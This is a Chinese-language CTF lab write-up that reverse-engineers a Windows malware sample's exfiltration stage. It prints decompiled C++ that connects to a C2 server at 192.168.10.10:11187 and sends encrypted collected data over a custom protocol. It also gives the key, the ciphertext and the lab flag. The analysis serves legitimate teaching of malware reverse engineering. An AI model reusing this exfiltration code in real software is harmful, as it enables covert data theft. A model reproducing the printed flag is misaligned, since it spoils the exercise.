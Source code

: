 ```yaml
---
title: Simple Reverse - 0x23(2023 Lab - WinMalware - Exfiltrate)
tags: [eductf, CTF, Reverse]

---
```


# Simple Reverse - 0x23(2023 Lab - WinMalware - Exfiltrate)
## Description
> 請根據 next stage payload 的行為，分析 capture.pcapng 中的封包，找出並解密被滲出/傳送到 C2 server 的資料。
## Background
* [WSAStartup](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock/nf-winsock-wsastartup)
* [htons](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock/nf-winsock-htons)
* [socket](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)
* [sockaddr](https://learn.microsoft.com/zh-tw/windows/win32/winsock/sockaddr-2)
* [WSAConnect](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-wsaconnect)
## Source Code
* exfiltrate
    :::spoiler source
    ```cpp
    void __fastcall exfiltrate(PUCHAR pbInput)
    {
      __int64 s[2]; // [rsp+28h] [rbp-10h] BYREF

      connect_to_c2(s);
      send_collected_data_to_c2(s[0], pbInput);
      shutdown(s[0], 1);
      closesocket(s[0]);
    }
    ```
    :::
* connect_to_c2
    :::spoiler source
    ```cpp
    void __fastcall connect_to_c2(unsigned __int64 *a1)
    {
      unsigned __int64 v2; // rax
      struct sockaddr name; // [rsp+20h] [rbp-1B8h] BYREF
      struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF

      if ( !WSAStartup(0x202u, &WSAData) )
      {
        *&name.sa_data[2] = 168470720;
        *name.sa_data = htons(0x2BB3u);
        name.sa_family = 2;
        v2 = socket(2, 1, 6);
        *a1 = v2;
        connect(v2, &name, 16);
      }
    }
    ```
    :::
* send_collected_data_to_c2
    :::spoiler source
    ```cpp
    void __fastcall send_collected_data_to_c2(SOCKET s, PUCHAR pbInput)
    {
      char *v4; // rbx
      int v5; // esi
      int i; // eax
      char v7; // al
      int j; // ecx
      int v9; // eax

      v4 = malloc(0x4Cui64);
      *v4 = 0x11877811;
      *(v4 + 1) = 4;
      *(v4 + 2) = 0;
      if ( send(s, v4, 76, 0) > 0xB )
      {
        v5 = 0;
        while ( v5 <= 2 )
        {
          if ( recv(s, v4, 76, 0) > 0xB && *v4 == 0x11877811 )
          {
            v9 = *(v4 + 2);
            if ( v9 )
            {
              switch ( v9 )
              {
                case 1:
                  *v4 = 0x11877811;
                  *(v4 + 1) = 4;
                  *(v4 + 2) = 1;
                  encrypt_key = (v4 + 12);
                  encrypt_data(pbInput);
                  for ( i = 2; i <= 23; ++i )
                    v4[i + 12] += v4[i + 11] - v4[i + 10];
                  break;
                case 2:
                  *v4 = 0x11877811;
                  *(v4 + 1) = 28;
                  *(v4 + 2) = 2;
                  memcpy_s(v4 + 12, 0x18ui64, cipher, 0x18ui64);
                  break;
                case 3:
                  goto LABEL_20;
              }
            }
            else
            {
              *v4 = 0x11877811;
              *(v4 + 1) = 4;
              *(v4 + 2) = 0;
            }
            for ( j = 0; j <= 39; ++j )
            {
              v7 = v4[j + 36] + v4[43] + v4[49] - v4[67];
              v4[j + 36] = v7;
              v4[j + 36] = v4[54] - (v4[61] + v4[69]) + v7;
            }
            send(s, v4, 76, 0);
            ++v5;
          }
        }
    LABEL_20:
        free(v4);
      }
    }
    ```
    :::
## Recon
1. `connet_to_c2`
    目標是取得c2 server的IP和port number
    1. 先看到#12的socket function，他代表的意思是利用IPv4並且TCP的protocol進行溝通，相關的數值說明都在[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)，可以用前面教到的用m指令改變已知的constant名稱$\to$`v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);`
    2. 接著看到connect function中的`&name`，IDA原本解析成sockaddr，sockaddr是一種通用的結構格式，所以IDA解析出來的東西也沒有問題，不過如果是IPv4又是乙太網路的傳輸，會比較建議把結構改成==sockaddr_in==，[這一篇](https://blog.csdn.net/tao546377318/article/details/72780685)探討了兩者的區別(其實就只是把sockaddr原本的結構擴展而已)，這樣的話整體分析會更好
        :::spoiler 解析後
        ```cpp
        void __fastcall connect_to_c2(unsigned __int64 *a1)
        {
          unsigned __int64 v2; // rax
          struct sockaddr_in name; // [rsp+20h] [rbp-1B8h] BYREF
          struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF

          if ( !WSAStartup(0x202u, &WSAData) )
          {
            name.sin_addr.S_un.S_addr = 0xA0AA8C0;      // IP: 192.168.10.10
            name.sin_port = htons(11187u);              // Port No.: 11187
            name.sin_family = AF_INET;
            v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
            *a1 = v2;
            connect(v2, &name, 16);
          }
        }
        ```
        :::
    :::info
    IP: 0xA0AA8C0 $\to$ `192.168.10.10`(little endian轉十進位)
    Port: `11187`
    sin.family: IPv4
    Protocol: TCP
    :::
2. `send_collected_data_to_c2`
    1. 先切分程式碼的功能
        ![](https://hackmd.io/_uploads/rkci81Aza.png)
        有時候通靈不一定很準，所以要適時的回頭檢查自己的猜測
    2. 前四行初始化的階段(malloc 0x4c然後塞三個dword)，應該是作者自定義的結構，可以利用Structures，自定義一個新的結構，大小就是0x4C，然後前三個可以定義為dd，並且把v4的結構改成packet(按Y)
        ![](https://hackmd.io/_uploads/ByQtqk0Mp.png)
    3. 各種rename
        * field_0看起來像是一個magic bytes，因為一開始附值之後，傳送過去server，再接收回來的packet也是有做驗證的動作，所以看起來是一個verification magic
        * field_8看起來就是接收來自server下達的command
        * field_C就比較多元，在case 1的時候是當作承接server給的encryption key(大小是8個bytes)，但在case 2是當作加密的cipher(大小是0x18個bytes)，所以我取名`enc_key_or_data`，另外大小是0x18(可以從memcpy的大小看出來)，所以可以按Y改變型別成`char[0x18]`
    :::info
    目前整體的流程
    ![](https://hackmd.io/_uploads/HJJB7gCf6.png)
    ![](https://hackmd.io/_uploads/BkHSXeCM6.png)
    :::
    
    ---
    4. 分析pcap
        這一部就直接對照著講義上截圖或是剛剛分析的封包格式就可以知道哪一個是key哪一個是cipher
        Key: `f0 c7 d3 0e 7f 2c 15 ba`
        Cipher: `43 60 5b 5f 4e ba 9f 9e e3 78 6f 55 cb 81 24 fa e7 bf 0d 1b 3c 24 b7 4e`
        接下來就可以直接用cipherchef的線上功能decrypt其中的內容

:::success
![](https://hackmd.io/_uploads/HJdetgRGp.png)

Flag: `FLAG{C2_cU540m_Pr0t0C01}`
:::